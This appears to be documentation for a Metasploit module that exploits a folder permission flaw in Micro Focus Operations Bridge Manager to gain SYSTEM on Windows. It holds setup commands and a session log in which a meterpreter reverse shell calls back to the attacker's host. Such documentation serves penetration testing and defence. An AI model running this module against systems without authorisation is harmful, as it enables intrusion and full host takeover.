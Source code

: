 ## Vulnerable Application

This module exploits an incorrectly permissioned folder in Micro Focus Operations Bridge Manager.

An unprivileged user (such as Guest) can drop a JSP file in an exploded WAR directory and then access it without authentication by making a request to the OBM server.
This will result in automatic code execution as SYSTEM. This module has been tested on OBM 2020.05 and 2019.11, but it should work out of the box on earlier versions too.

According to Micro Focus the vulnerable versions are:

* Operations Bridge Manager versions: 2020.05, 2019.11, 2019.05, 2018.11, 2018.05, versions 10.6x and 10.1x and older versions
* Operations Bridge (containerized) versions: 2019.11, 2019.08, 2019.05, 2018.11, 2018.08, 2018.05, 2018.02, 2017.11

Installation docs are available at:

* https://docs.microfocus.com/itom/Operations_Bridge_Manager:2020.05

Vulnerable versions of the software can be downloaded from Micro Focus website by requesting a demo.

Only the Windows version of the product is affected.

All details about these vulnerabilities can be obtained from the advisory:

* https://github.com/pedrib/PoC/blob/master/advisories/Micro_Focus/Micro_Focus_OBM.md

## Verification Steps

1. Install the application
2. Start msfconsole
3. `use exploit/windows/local/microfocus_operations_privesc.rb`
4. `set session SESSION`
5. `set lhost YOUR_IP`
6. `run`
7. You should get a shell.

## Scenarios

```
msf6 exploit(multi/handler) > use exploit/windows/local/microfocus_obm_dir_perm
s
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/microfocus_obm_dir_perms) > set lhost 10.0.0.1
lhost => 10.0.0.1
msf6 exploit(windows/local/microfocus_obm_dir_perms) > set lport 4499
lport => 4499
msf6 exploit(windows/local/microfocus_obm_dir_perms) > set session 3
session => 3
msf6 exploit(windows/local/microfocus_obm_dir_perms) > run

[*] Started reverse TCP handler on 10.0.0.1:4499
[*] JSP dropped, calling it @ https://127.0.0.1:443/topaz/LB_Verify.jsp
[*] Sending stage (175174 bytes) to 10.0.0.206
[*] Meterpreter session 4 opened (10.0.0.1:4499 -> 10.0.0.206:65068) at 2021-01-29 16:00:43 +0700

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
